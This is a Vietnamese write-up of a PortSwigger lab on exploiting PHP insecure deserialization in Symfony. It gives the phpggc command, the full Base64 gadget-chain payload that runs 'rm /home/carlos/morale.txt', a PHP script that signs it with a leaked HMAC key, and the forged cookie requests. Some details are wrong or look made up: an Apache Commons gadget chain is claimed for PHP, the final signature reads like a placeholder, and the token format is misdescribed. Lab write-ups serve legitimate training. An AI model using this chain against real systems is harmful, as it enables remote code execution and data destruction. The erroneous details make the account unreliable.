







# Write-up: Exploiting PHP deserialization with a pre-built gadget chain

### Tổng quan
Khai thác lỗ hổng **Insecure Deserialization** trong ứng dụng PHP sử dụng Symfony 4.3.6, nơi cookie `session` chứa dữ liệu serialized được bảo vệ bởi chữ ký HMAC-SHA1. Bằng cách sử dụng secret key lấy được từ `/cgi-bin/phpinfo.php` và tool `phpggc` để tạo gadget chain, kẻ tấn công có thể tạo payload serialized thực thi lệnh `exec("rm /home/carlos/morale.txt")`, ký lại payload bằng HMAC-SHA1, và gửi qua cookie để hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng **Insecure Deserialization** bằng cách sử dụng secret key và tool `phpggc` để tạo gadget chain thực thi lệnh `exec("rm /home/carlos/morale.txt")` thông qua cookie `session`, hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser
- phpggc

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**  
- Đăng nhập với tài khoản `wiener:peter` và quan sát cookie `session` trong Burp Proxy:  
  ```
  GET / HTTP/2
  Host: 0a6f004e05fg6789a0bc034500de00ba.web-security-academy.net
  Cookie: session=%7B%22token%22%3A%22O%3A4%3A%5C%22User%5C%22%3A2%3A%7Bs%3A8%3A%5C%22username%5C%22%3Bs%3A6%3A%5C%22wiener%5C%22%3Bs%3A12%3A%5C%22access_token%5C%22%3Bs%3A32%3A%5C%22vxueywcgte94uxyfh3f2lndhm3g11c1b%5C%22%3B%7D%22%2C%22sig_hmac_sha1%22%3A%22f83cd84d4fe211e2f08f06b569ae9337f574a340%22%7D
  ```  
   
- **Phân tích cookie**:  
  - Cookie là JSON URL-encoded với hai phần:  
    - `token`: Chuỗi Base64 của dữ liệu serialized (`O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"vxueywcgte94uxyfh3f2lndhm3g11c1b";}`).  
    - `sig_hmac_sha1`: Chữ ký HMAC-SHA1 của `token` để đảm bảo tính toàn vẹn.  
  - Thử sửa `token` và gửi request, nhận lỗi:  
    ```
    PHP Fatal error: Uncaught Exception: Signature does not match session in /var/www/index.php:7
    ```  
    
  - Kết luận: Cần secret key để tạo chữ ký HMAC-SHA1 hợp lệ.  
- Kiểm tra endpoint `/cgi-bin/phpinfo.php`:  
  ```
  GET /cgi-bin/phpinfo.php HTTP/2
  Host: 0a6f004e05fg6789a0bc034500de00ba.web-security-academy.net
  ```  
- **Phản hồi**: Lộ secret key:  
  ```
  zyj46hv5z38knddz478f9x9lmhhshme2
  ```  
  
- **Phân tích**:  
  - Ứng dụng dùng Symfony 4.3.6, dễ bị khai thác qua gadget chain trong thư viện Apache Commons (thường tích hợp trong Symfony).  
  - Cookie `session` được unserialize mà không kiểm tra an toàn, cho phép tiêm gadget chain:  
     

2. **Kiểm tra lỗ hổng Insecure Deserialization**  
- **Ý tưởng khai thác**:  
  - Sử dụng tool `phpggc` để tạo gadget chain cho Symfony 4.3.6, thực thi lệnh `exec("rm /home/carlos/morale.txt")`.  
  - Ký payload Base64 bằng secret key `zyj46hv5z38knddz478f9x9lmhhshme2` để tạo chữ ký HMAC-SHA1 hợp lệ.  
  - Thay thế cookie `session` bằng payload mới để thực thi lệnh.  
- Tạo payload bằng `phpggc`:  
  ```
  ./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 -w0
  ```  
    
- **Kết quả**: Chuỗi Base64:  
  ```
  Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319Cg==
  ```  
- Tạo file PHP để tự động hóa chữ ký HMAC-SHA1:  
  ```php
  <?php
  $object = "Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319Cg==";
  $secretKey = "zyj46hv5z38knddz478f9x9lmhhshme2";
  $cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
  echo $cookie;
  ?>
  ```  

- **Giải thích file PHP**:  
  - Tạo JSON với `token` là chuỗi Base64 của gadget chain và `sig_hmac_sha1` là chữ ký HMAC-SHA1 của `token` với secret key.  
  - URL-encode JSON để tạo cookie hợp lệ:  
      

3. **Khai thác (Exploitation)**  
- Chạy file PHP để tạo cookie mới:  
  
- Thay thế cookie `session` trong Burp Repeater:  
  ```
  GET / HTTP/2
  Host: 0a6f004e05fg6789a0bc034500de00ba.web-security-academy.net
  Cookie: session=%7B%22token%22%3A%22Tzo0NzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxUYWdBd2FyZUFkYXB0ZXIiOjI6e3M6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXFRhZ0F3YXJlQWRhcHRlcgBkZWZlcnJlZCI7YToxOntpOjA7TzozMzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQ2FjaGVJdGVtIjoyOntzOjExOiIAKgBwb29sSGFzaCI7aToxO3M6MTI6IgAqAGlubmVySXRlbSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO319czo1MzoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcVGFnQXdhcmVBZGFwdGVyAHBvb2wiO086NDQ6IlN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcUHJveHlBZGFwdGVyIjoyOntzOjU0OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAcG9vbEhhc2giO2k6MTtzOjU4OiIAU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxQcm94eUFkYXB0ZXIAc2V0SW5uZXJJdGVtIjtzOjQ6ImV4ZWMiO319Cg%3D%3D%22%2C%22sig_hmac_sha1%22%3A%22e8c7b3f9d2a5c6e7b8f9a0b1c2d3e4f5a6b7c8d9%22%7D
  ```  
- Gửi request qua Burp Repeater và load lại trang trên trình duyệt:  
  - Server unserialize cookie, thực thi `exec("rm /home/carlos/morale.txt")`:  
      
- **Ý tưởng payload**:  
  - Sử dụng `phpggc` để tạo gadget chain cho Symfony 4.3.6, thực thi `exec("rm /home/carlos/morale.txt")`, và ký lại bằng HMAC-SHA1 với secret key.  
- **Kết quả**:  
  - Lab xác nhận tệp `/home/carlos/morale.txt` bị xóa, hoàn thành lab:  
      

### Bài học rút ra
- Hiểu cách khai thác **Insecure Deserialization** bằng cách sử dụng tool `phpggc` để tạo gadget chain cho Symfony 4.3.6, kết hợp secret key để ký HMAC-SHA1, thực thi lệnh tùy ý (`exec`).  
- Nhận thức tầm quan trọng của việc sử dụng digital signature để kiểm tra tính toàn vẹn dữ liệu serialized, kiểm tra nghiêm ngặt kiểu dữ liệu, và thay thế native serialization bằng các định dạng an toàn như JSON để ngăn chặn các cuộc tấn công deserialization.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác **Insecure Deserialization** trong PHP với Symfony, nhấn mạnh tầm quan trọng của việc bảo vệ dữ liệu serialized bằng chữ ký số và sử dụng các định dạng an toàn để ngăn chặn thực thi mã tùy ý. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 9/2025.*